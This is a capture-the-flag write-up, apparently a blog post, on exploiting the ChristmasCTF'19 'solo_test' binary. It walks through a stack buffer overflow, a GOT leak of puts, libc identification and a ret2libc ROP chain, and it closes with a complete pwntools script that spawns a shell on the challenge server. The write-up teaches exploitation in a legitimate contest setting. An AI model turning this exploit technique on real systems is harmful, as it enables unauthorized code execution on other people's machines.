 ```yaml
---
layout: post
title: ChristmasCTF - Binary Explotation
excerpt: "The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience."
categories: [Writeups, ChristmasCTF'19]
---
```


The one binary exploitation problem I tackled this CTF was solo_test which was a 64 bit binary. The problem seemed to be a standard  problem yet it has been one of my first successful exploitations in competition and was a good learning experience.

### Pwn

#### Solo_test
```
Let's see if you are really solo :D  
Never lie!  
nc 115.68.235.72 1337  
  
Download
```

Running the file, we see this is a 64 bit executable which is not stripped.
```
solo_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64  
.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9dd8736aa73681b63582f4636fd2ee3c7581152, not stripped
```
Running checksec, we see that NX is enabled which means we cannot execute shellcode on the stack.
```
Arch: amd64-64-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x400000)
```

My first step is to open the program in Ghidra and look at the main function.
```c
  banner();
  pain1();
  pain2();
  pain3();
  pain4();
  pain5();
  solo();
```
Looking at the functions in the main function carefully, it seems like the functions which start with pain just need to be fulfilled by responding correctly to the question. Each of the pain functions wanted a specific answer by checking through a ` strncmp(local_88,some string,2);` 

I started my exploit script by answering all of these questions.
```python
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	  
getRead()
```

After we successfully answer the questions, we reach the `solo()` function. 
```c
  undefined local_58 [80];
  
  puts("\nYou passed my solo test!");
  printf("Reward --> ");
  read(0,local_58,0x200);
  return;
```
It is clear in this function that we have a buffer overflow. More bytes are read into the local_58 buffer than is allocated for it. Just like normal, I used pwntools cyclic function to generate a string of length 512 and sent it to the binary. By attaching GDB, I could view the register values when it crashed. I grabbed the value in RSP which is used to calculate the offset in 64 bit binary exploitation and found the offset to be 88. As I've gone over how do this in a previous blogpost, I won't explain in detail how this is done.

Now we have a buffer overflow, how can we get a shell? We can achieve this through  a ROP Chain and using the system function found in libc and the string "/bin/sh" found in libc. The one problem we face is that we don't know what version of libc we are using. The challenge authors did not provide it. To overcome this, we can get a leak on a function in the GOT and search for our libc using a libc database. I chose the leak the puts function.

How do we leak the address of a function? We can call puts from the PLT and ask it to output the address of another function. This can be done using  a simple ropchain. To make things simpler, I loaded the ELF for processing by pwntools by doing `e = ELF("/solo_test")` Now, all I need to do to get the address of puts in the GOT which could be done using `e.got["puts"]`. 

If you are new to ROP Chaining, I recommend reading this article [here](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). My first payload uses a `pop rdi; ret;`  gadget to setup the arguments for the puts command. Unlike 32 bit in which arguments are put onto the stack, in 64 bit, arguments must be put in the correct register. After outputting the address of where puts was in the GOT, I returned to the `solo()` function in order to avoid segfaulting and so I could continue my exploit after I got a leak of libc. This is my complete first payload:
```python
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)

r.sendline(payload)
```

By sending this to the remote server, I was able to get a leaked address. I then adjusted it and formatted it using the following.
```python
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))
```

With a leaked address in hand, I used an [online libc database](https://libc.blukat.me/) to identify which version of libc the remote server was using. It found that libc 2.29 was being used. I then downloaded it and loaded it for use in pwntools by writing `libc = ELF("libc6_2.29-0ubuntu2_amd64.so")` 

After identifying the libc version, this was a standard ret2libc attack. First I calculated the libc base address.
```python
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))
```

The final step was to craft a ropchain using the found system and binsh in libc. This was done very easily by using pwntools.
```python
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system

r.sendline(payload)
```

One important note is that without the ret_gadget, my exploit would segfault. I believe this was due to a problem with the stack alignment. As I was working using the remote server and not a local copy of the binary, I wasn't able to truly identify the cause of the segfault. However, if you are working in 64 bit and seemingly randomly segfault, try adding a ret_gadget to fix 16 bit stack alignment.

Here is a complete copy of my exploit. Once executed, this gave a shell on the system. The last step was to find the flag in /home/solo_test/flag. 
```python
Windows Terminal

from pwn import *  
  
context.binary = "solo_test"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = process("./solo_test")  
r = remote("115.68.235.72", 1337)  
e = ELF("./solo_test")  
libc = ELF("libc6_2.29-0ubuntu2_amd64.so")  
  
#gdb.attach(r)  
  
def getRead():  
	r.recv()  
	r.sendline("Me")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
	r.sendline("CTF")  
	r.recv()  
	r.sendline("Never")  
	r.recv()  
	r.sendline("No")  
	r.recv()  
  
getRead()  
  
payload = "A" * 88  
  
pop_rdi = p64(0x400b83)  
got_put = p64(e.got["puts"])  
plt_put = p64(e.plt["puts"])  
plt_main = p64(0x400660)  
  
payload += pop_rdi + got_put + plt_put + p64(0x4009f3)  
  
r.sendline(payload)  
r.recv()  
  
leaked_puts = u64(r.recvline().rstrip().ljust(8, "\x00"))  
print("Leaked libc address, puts: " + str(hex(leaked_puts)))  
libc.address = leaked_puts - libc.sym["puts"]  
print("Address of libc: " + str(libc.address))  
  
system = p64(libc.sym["system"])  
binsh = p64(next(libc.search("/bin/sh")))  
print("System found at: " + str(hex(u64(system))) + " /bin/sh found at: " + str(hex(u64(binsh))))  
  
ret_gadget = p64(0x4005f1)  
  
payload = "A" * 88  
  
payload += ret_gadget + pop_rdi + binsh + system  
  
r.sendline(payload)  
  
r.interactive()
```

## Concluding thoughts on binary exploitation

This was my first time doing a ret2libc attack in competition. It was also my first time working to find out what version of libc a binary was using. It was great to be able to sucessfully exploit a program. I also learned the importance of stack alignment and the power of just adding a ret gadget. Overall, this CTF was a great learning experience. I hope to improve my binary exploitation skills and move from the stack towards the heap in the near future.
